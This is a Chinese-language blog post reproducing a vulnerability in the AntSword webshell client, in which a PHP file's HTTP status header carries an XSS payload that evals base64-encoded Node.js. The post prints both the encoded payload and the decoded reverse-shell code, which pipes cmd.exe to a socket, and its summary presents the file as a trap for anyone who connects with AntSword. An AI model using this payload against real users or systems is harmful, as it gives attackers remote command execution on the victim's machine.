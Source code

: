 ﻿---
layout: post
title: 漏洞复现蚁剑 Electron XSS反弹shell复现
date: 2019-09-19
categories: blog
tags: [漏洞复现，蚁剑]
description: 蚁剑 Electron XSS
---

####一、环境
>antsword2.0.5以前，antsword使用了Electron，Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
####二、复现过程
>phpstudy网站根目录添加webshell文件，ant.php，存在XSS
![avatar](_posts/images/antsword/1.png)

>phpstudy网站根目录添加webshell文件，ant.php
```
<?php
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
?>
```
>特别需要注意webshell的内容是base64编码之后的，编码之前为

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>本地nc监听端口
![avatar](images/antsword/2.png)

>使用蚁剑访问webshell
![avatar](images/antsword/3.png)

>webshell反弹成功
![avatar](images/antsword/4.png)

####三、总结
>适用范围：挂一个webshell在服务器上，等别人用蚁剑来连，连接之后就算蚁剑关闭，shell仍存在
参考链接：
[*][https://github.com/theLSA/CS-checklist](https://github.com/theLSA/CS-checklist)
[*][https://www.anquanke.com/post/id/176379](https://www.anquanke.com/post/id/176379)













